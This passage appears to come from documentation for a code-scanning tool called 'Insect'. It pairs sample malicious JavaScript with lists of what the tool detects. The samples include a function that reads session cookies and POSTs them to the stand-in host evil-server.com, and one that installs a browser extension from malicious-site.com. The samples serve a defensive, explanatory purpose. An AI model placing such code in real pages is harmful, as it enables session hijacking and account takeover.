 **What Insect Detects:**
- Identifies suspicious localStorage/sessionStorage access patterns
- Flags attempts to enumerate and extract browser storage data
- Detects data exfiltration to external servers

**Why This is Dangerous:**
- Browser storage often contains authentication tokens and user preferences
- Can be used to impersonate users or access their accounts
- May contain sensitive application data

### Browser Session Hijacking

**Vulnerable Code:**

```javascript
function hijackSession() {
    // Steal all cookies
    var cookies = document.cookie;
    
    // Look for specific session tokens
    var sessionToken = getCookie("JSESSIONID");
    var phpSession = getCookie("PHPSESSID");
    var aspSession = getCookie("ASP.NET_SessionId");
    
    // Send to attacker server
    fetch("http://evil-server.com/collect", {
        method: "POST",
        body: JSON.stringify({
            cookies: cookies,
            tokens: {
                jsession: sessionToken,
                php: phpSession,
                asp: aspSession
            }
        })
    });
}
```

**What Insect Detects:**
- Identifies suspicious cookie access via `document.cookie`
- Flags attempts to extract common session token formats
- Detects patterns consistent with session hijacking attacks

**Why This is Critical:**
- Session tokens allow attackers to impersonate authenticated users
- Can lead to account takeover without knowing passwords
- Enables unauthorized access to user accounts and data

### Browser Extension Manipulation

**Vulnerable Code:**

```javascript
// Malicious extension injection
function injectMaliciousExtension() {
    // Access Chrome extension APIs
    if (chrome.extension) {
        chrome.extension.sendMessage({type: "steal_data"});
    }
    
    // Install malicious extension programmatically
    chrome.management.install({
        url: "http://malicious-site.com/evil-extension.crx"
    });
}
```
